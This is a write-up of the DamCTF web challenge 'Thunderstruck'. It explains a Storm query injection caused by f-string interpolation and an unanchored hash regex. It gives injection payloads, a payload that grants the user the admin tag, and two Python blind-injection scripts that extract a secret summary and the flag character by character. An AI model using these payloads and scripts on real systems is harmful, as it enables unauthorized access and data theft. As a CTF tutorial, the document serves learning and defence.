

# web/thunderstruck


## Intro

I participated in DamCTF and solved a web challenge called Thunderstruck, flagging it less than an hour before the end of the CTF. I'm happy since it's the first time I managed to get a challenge with relatively few solves :D

## Exploration and research

### Overview

The challenge is a Python webapp that uses [Quart](https://pgjones.gitlab.io/quart/), an async reimplementation of Flask.


You can register and login as an user. There's a `/lookup` endpoint where you can query some IOC (IPv4, MD5, SHA1, SHA256, or SHA512) to find out if they are "sus" or "safe". There's also an `/admin` panel only accessible if the user is an admin.

### Synapse

The index page tells us that the challenge is powered by [Synapse](https://github.com/vertexproject/synapse-quickstart). I knew nothing about Synapse so the source code looked very overwhelming at first, but things became much clearer when I realized it's just a fancy database system.

Reading the [Synapse documentation](https://synapse.docs.vertex.link/en/latest/index.html), we can summarize some important characteristics and terminology that will help us understand the challenge:

- Synapse uses Cortex which is a graph-like database, where a data entity is called a node which can be connected to other nodes, instead of tables and rows like in a SQL database.
- Cortex uses a query language called Storm. It's like the equivalent of the SQL for Cortex.

So for example, if you `/lookup` an IP address like `1.1.1.1`, the app will use Storm to query if the Cortex database contains an `inet:ipv4` node that has the value `1.1.1.1`. 

### Source code

First, we can see that `init_cortex.storm` is used to initialize the database with some nodes. A `inet:ipv4` node is set with value `9.9.9.9` and a `meta:event` node is set with a redacted summary. 

There's no mention of flag or anything redacted at any other place, so it seems that our goal is to somehow exfiltrate this value.

```
[meta:event=* :title="ingest-20230202" :summary="<REDACTED>"]
[inet:ipv4=9.9.9.9]

// REDACTED, CAN'T LEAK THE SPICE INTEL ;)

fini { $lib.print("initialized!") }
```

The Quart webapp code is in `src/thundertruck.py`, and we can study how the Cortex database and Storm query language is used in the app.

For example, in `register_user`, the `cortex.count` method is used to execute a Storm query to verify if a username already exists in the database, i.e. if an `auth:creds` node with value `(thunderstruck,$u)` exists. Notice the usage of the parameter `$u` which is the username, very much like a prepared statement / parametrized query in SQL.

```python
@classmethod
async def register_user(cls, username: str, password: str) -> bool:
    salt = cls.get_salt()
    pwhash = cls.get_pw_hash(password, salt)

    if (await current_app.cortex.count(r"auth:creds=(thunderstruck,$u)", opts={"vars": {"u": username}, "view": BASE_VIEW_GUID})) == 1:
        return False
    
    # ...
```

## Finding the bug

### Storm query injection

Let's now take a look at how the app finds out if the IOC you give at `/lookup` is "sus" (i.e. queries if it's in the Cortex database) or not:

```python
async def _lookup_ip(ip) -> bool:
    return await current_app.cortex.count(f"inet:ipv4={ip}", opts={"vars": {"ip": ip}, "view": await current_user.view}) > 0

async def _lookup_md5(h) -> bool:
    return await current_app.cortex.count(f"hash:md5={h}", opts={"vars": {"h": h}, "view": await current_user.view}) > 0

async def _lookup_sha1(h) -> bool:
    return await current_app.cortex.count(f"hash:sha1={h}", opts={"vars": {"h": h}, "view": await current_user.view}) > 0

async def _lookup_sha256(h) -> bool:
    return await current_app.cortex.count(f"hash:sha256={h}", opts={"vars": {"h": h}, "view": await current_user.view}) > 0

async def _lookup_sha512(h) -> bool:
    return await current_app.cortex.count(f"hash:sha512={h}", opts={"vars": {"h": h}, "view": await current_user.view}) > 0
```

It uses the `cortex.count` method just like in `register_user`, if the number of results is over 0, the IOC is in the database and is "sus". We can also see that the IP address `ip` or the hash `h` we query is set as a parameter... Wait.

Unlike what we would except, our input is directly incorporated into the Python f-string instead of being a parameter! (`f"inet:ipv4={ip}"` instead of `"inet:ipv4=$ip"`) This looks very much like a SQL injection point, or should I say Storm injection in our case :D

Now comes a question: is the IP address or hash we give to the `/lookup` query properly validated?

### Regex mistake

Here's the section of the code that validates our `/lookup` query parameter.

```python
IPV4_PAT = re.compile(r"^(?:[0-9]{1,3}\.){3}[0-9]{1,3}$")
HASH_PAT = re.compile(r"[0-9a-f]+")
@app.route("/lookup", methods=["GET", "POST"])
@login_required
async def lookup():
    if request.method == "POST":
        form = await request.form

        found = False
        good_lookup = True
        if IPV4_PAT.findall(form["query"]):
            found = await _lookup_ip(form["query"])
        elif HASH_PAT.findall(form["query"]):
            if len(form["query"]) == 32:
                found = await _lookup_md5(form["query"])
            elif len(form["query"]) == 40:
                found = await _lookup_sha1(form["query"])
            elif len(form["query"]) == 64:
                found = await _lookup_sha256(form["query"])
            elif len(form["query"]) == 128:
                found = await _lookup_sha512(form["query"])
            else:
                good_lookup = False
        else:
            good_lookup = False
        
        return await render_template("lookup.html", indicator=form["query"], good_lookup=good_lookup, found=found)
    else:
        return await render_template("lookup.html")
```

The regex that matches `IPV4_PAT` is properly written, but we notice that the `^` and `$` is missing from `HASH_PAT`, which will make the regex match any string that contains at least one hex character, instead of verifying that it only contains hex characters!

However, our query still needs to be either 32, 40, 64 or 128 characters, but this is not really a problem since we can use comments that start with an `#` in Storm to pad our query (or simply just use spaces).

### A simple POC

Suppose we `/lookup` the following query:

```
00000* | inet:ipv4=9.9.9.9 #aaaa
```

It contains at least one hex character and we padded it to length 32, so it will pass the validation and the resulting Storm query will be:

```python
cortex.count("hash:md5=00000* | inet:ipv4=9.9.9.9")
```

`*` is the wildcard character, so this translates to: "Get the number of `hash:md5` nodes that start with `00000` plus the number of `inet:ipv4` nodes equal to `9.9.9.9`".

We set `00000*` to ensure that no node matches the left side of the `|` operator, since it's very unlikely that a hash like that exists in the database. So the result of this count query will be over 0 if and only if there's a match in the right side. 

We can test this locally because we know from `init_cortex.storm` that there's a `inet:ipv4` node with value `9.9.9.9` in the database, so the lookup will return "sus".

```
00000* | inet:ipv4=9.9.9.9 #aaaa
```


On the other hand, the IP `9.9.9.8` doesn't exist in our local database, so the following lookup will return "safe".

```
00000* | inet:ipv4=9.9.9.8 #aaaa
```


We now have a way to execute arbitrary Storm commands, and also found an oracle to test if there's a node in the database that satisfies our given condition, just like in a blind SQL injection!

## Exfiltrating the event summary

The goal now is to get the value of `meta:event:summary`, and that's where things got tough for me.

### My inefficient solution

I immediately got the idea of exfiltrating the event summary character by character, using the same method you would use for a blind SQL injection. However, an operator that only matches part of the string similar to `LIKE` or `SUBSTR` in SQL is needed, and after reading through the Synapse documentation, I found and used the [filter by regex](https://synapse.docs.vertex.link/en/latest/synapse/userguides/storm_ref_filter.html#filter-by-regular-expression) operator `~=`.

For example, the following lookup will return "sus" only if the event summary begins with the character `a`, and we will try this for every ASCII printable character to determine the first character, then the second one... until we get the full value.

```
00000* | meta:event:summary ~= "^a" #aaa
```

Here's the solve script I ended up using. Note that since the summary is very long, the 128 character limit will be reached a few times and you will need to truncate the summary and restart the script if you decide to try it out entirely. 

```python
import requests
import string

s = requests.Session()
base_url = 'http://157.230.188.90'

r = s.post(f'{base_url}/login', {
    'username': 'a',
    'password': 'a'
})

summary = ''
alphabet =  [' ', '\\n'] + ['\\' + c for c in ',":=$()[]{}'] + list(string.ascii_letters + string.digits) + ['\\S', '\\s']

while True:

    for guess in alphabet:

        query = f'00000* | meta:event:summary ~= "^{summary + guess}" #'.ljust(128, 'a')

        r = s.post(f'{base_url}/lookup', {
            'query': query
        })
        assert('boi is safe' in r.text or 'sus indicator' in r.text)

        if 'sus indicator' in r.text:
            summary += guess
            print(summary)
            break
```

After a very long time and lots of regex debugging due to the presence of whitespaces and special characters, I finally got the full value of `meta:event:summary` which is a code segment:

```php
for ($type, $valu) in $rows {
    switch ($type) {
        "md5": {[ hash:md5=$valu ]}
        "sha1": {[ hash:sha1=$valu ]}
        "sha256": {[ hash:sha256=$valu ]}
        "sha512": {[ hash:sha512=$valu ]}
        "ip": {[ inet:ipv4=$valu ]}
        "flag": {[ it:dev:str=$valu ]}
    }
}
```

Unfortunately, the summary didn't contain the flag itself. However, we seem to be on the good path, since there's a line hinting that the flag might be stored in a `it:dev:str` node.

```php
"flag": {[ it:dev:str=$valu ]}
```

### The good and intended way

Actually, the `/admin` endpoint displays the summary of the most recent `meta:event` when accessed, which would have saved me the hurdle of bruteforcing it character by character if I had found a way to access it. This completely skipped my mind during the CTF.

```python
ingest_ts, ingest_code = await current_app.cortex.callStorm(r"meta:event#ingest | max .created | return((.created, :summary))", opts={"view": await current_user.view})
```

Of course, you need to be an admin in order to access the endpoint. In the source code, we can find out that an user is defined as an admin if the corresponding `auth:creds` node has a tag (defined by the character `#` in Synapse) with value `role.admin`.

```python
self._is_admin = (await current_app.cortex.count(r"auth:creds=(thunderstruck,$u) +#role.admin", opts={"vars": {"u": self.auth_id}, "view": self._view})) == 1
```

Since we found a way to inject arbitrary Storm in the `/lookup` function, we can simply inject a query that adds the tag `role.admin` to our user node, which will promote us to admin!

```
* | auth:creds:user=a [+#role.admin] #aa
```

Then we can access the admin center and get the event summary effortlessly, as well as useful information such as node counts for each form. We can confirm that there's a single `it:dev:str` node in the database which very likely contains the flag.


I got fixated on my idea of exfiltrating `meta:event:summary` character by character wrongly assuming that I could get the flag quickly that way and somehow forgot the details of the `/admin` endpoint, which lead to a lot of time wasted. Lessons learned!

## Exfiltrating the flag

Now that we know that the flag is in the `it:dev:str` node, we can apply the same method we used for the event summary to exfiltrate the flag character by character, this time using the `^=` operator which [filters by prefix](https://synapse.docs.vertex.link/en/latest/synapse/userguides/storm_ref_filter.html#filter-by-prefix), since the flag likely starts with `dam{`. We can verify that by checking that the following lookup returns "sus" on remote:

```
00000* | it:dev:str ^= "dam{" #a
```



The solve script is very similar to the previous one, again just like a blind SQL injection.

```python
import requests
import string

s = requests.Session()
base_url = 'http://157.230.188.90'

r = s.post(f'{base_url}/login', {
    'username': 'a',
    'password': 'a'
})

flag = 'dam{'
alphabet =  '}_' + string.digits + string.ascii_letters

while not flag.endswith('}'):

    for guess in alphabet:

        query = f'00000* | it:dev:str ^= "{flag + guess}" #'.ljust(128, 'a')

        r = s.post(f'{base_url}/lookup', {
            'query': query
        })
        assert('boi is safe' in r.text or 'sus indicator' in r.text)

        if 'sus indicator' in r.text:
            flag += guess
            print(flag)
            break
```

After some time, we finally get the flag!

```
dam{sq1_4nd_3xcel_ar3_w3ak_gr4phs_3re_fun}
```
